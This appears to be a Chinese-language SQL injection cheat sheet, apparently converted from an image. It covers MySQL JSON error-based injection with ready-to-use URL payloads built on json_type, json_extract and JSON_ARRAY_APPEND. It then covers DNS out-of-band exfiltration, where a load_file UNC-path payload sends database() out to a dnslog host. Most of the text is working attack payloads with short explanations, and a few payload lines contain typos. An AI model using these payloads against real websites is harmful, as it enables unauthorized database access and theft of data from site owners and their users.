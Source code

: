 ### JSON数据报错注入

条件：mysql 5.7.8以上版本
说明：从 MySQL 5.7.8 开始⽀持由RFC 7159 JSON 定义的本机数据类型 ，可以有效地访问 JSON（JavaScript Object Notation）文档中的数据。

#### json 数据格式

```bash
{username:'admin',password:'admin'}
```

#### JSON_TYPE

JSON_TYPE函数获取JSON值的类型，当我们传⼊的值不属于json格式则报错。
JSON_TYPE(version())
Payload:   id=1' and json_type(version())%23

#### JSON_EXTRACT()

JSON_EXTRACT(json_doc, path[, path] ...)
JSON_EXTRACT函数从 JSON ⽂档中返回数据，从与path参数匹配的⽂档部分中选择]
当第⼀个参数不是json类型的值则报错
JSON_EXTRACT(version(), '$[1]’)
JSON_EXTRACT((select user()),'$.a')
Payload:   id=1' and json_extract(user(),'$.a')%23
Payload:   id=1' and json_extract('[1,2,3]',user())%23

#### JSON_ARRAY_APPEND()

JSON_ARRAY_APPEND(json_doc, path, val[, path, val] ...)
将值附加到 JSON ⽂档中指定数组的末尾并返回结果，报错输出原理和json_extract函数相同。
select JSON_ARRAY_APPEND(version(),1,1);
select JSON_ARRAY_APPEND('[1,2]',version(),1);
Payload:   id=1' and JSON_ARRAY_APPEND('[1,2,3]’,user(),1)%23

## 数据外带

#### DNS数据外带

1. 利用windows UNC路径组合mysql的load_file函数读取远程服务器的文件来实现将本地子查询语句拼接到域名中，实现dnslog数据外带。
2. `\`​<span data-type="text" style="background-color: var(--b3-font-background8);">的作用是转义</span>   \\\\\\\\==>转义为\\\
3. DNS有61位长度限制，超过就无法显示。
4. DNS数据外带网站：[dnslog.org/](https://dnslog.org/)
5. 数据库字段的值可能存在特殊符号，由于域名有一定规范，不能存在特殊符号，这些特殊符号拼接在域名里是无法做dns查询的。可以用hex编码或asci,将含特殊符号的数据外带出。
    char(ascii(databas())     hex(database())
6. payload：and load_file(concat('\\\\',database(),'cbffba4a.log.dnslog.store.'))%23
